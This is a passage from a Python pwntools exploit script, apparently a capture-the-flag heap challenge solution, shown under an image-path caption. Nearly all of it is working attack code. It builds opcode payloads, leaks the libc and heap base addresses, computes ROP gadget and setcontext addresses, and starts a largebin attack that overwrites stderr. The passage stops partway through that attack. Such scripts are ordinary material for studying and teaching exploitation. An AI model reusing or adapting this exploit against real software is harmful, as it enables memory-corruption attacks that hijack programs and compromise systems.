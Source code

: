 ```python
        global all_payload
        payload = p8(0x3)
        payload += p8(idx)
        all_payload += payload

    def delete(idx):
        global all_payload
        payload = p8(0x2)
        payload += p8(idx)
        all_payload += payload

    def edit(idx, buf):
        global all_payload
        payload = p8(0x4)
        payload += p8(idx)
        payload += p16(len(buf))
        payload += str(buf)
        all_payload += payload

    def run_opcode():
        global all_payload
        all_payload += p8(5)
        sh.sendafter("Pls input the opcode", all_payload)
        all_payload = ""

    # leak libc_base
    add(0, 0x410)
    add(1, 0x410)
    add(2, 0x420)
    add(3, 0x410)
    delete(2)
    add(4, 0x430)
    show(2)
    run_opcode()

    libc_base = u64(sh.recvuntil('\\x7f')[-6:].ljust(8, '\\x00')) - 0x1f30b0  # main_arena + 1104
    log.success("libc_base:\\t" + hex(libc_base))
    libc.address = libc_base

    guard = libc_base + 0x2035f0
    pop_rdi_addr = libc_base + 0x2daa2
    pop_rsi_addr = libc_base + 0x37c0a
    pop_rax_addr = libc_base + 0x446c0
    syscall_addr = libc_base + 0x883b6
    gadget_addr = libc_base + 0x146020  # mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
    setcontext_addr = libc_base + 0x50bc0

    # leak heapbase
    edit(2, "a" * 0x10)
    show(2)
    run_opcode()
    sh.recvuntil("a" * 0x10)
    heap_base = u64(sh.recv(6).ljust(8, '\\x00')) - 0x2ae0
    log.success("heap_base:\\t" + hex(heap_base))

    # largebin attack stderr
    delete(0)
    edit(2, p64(libc_base + 0x1f30b0) * 2 + p64(heap_base + 0x2ae0) + p64(libc.sym['stderr'] - 0x20))
    add(5, 0x430)
    edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
    edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
```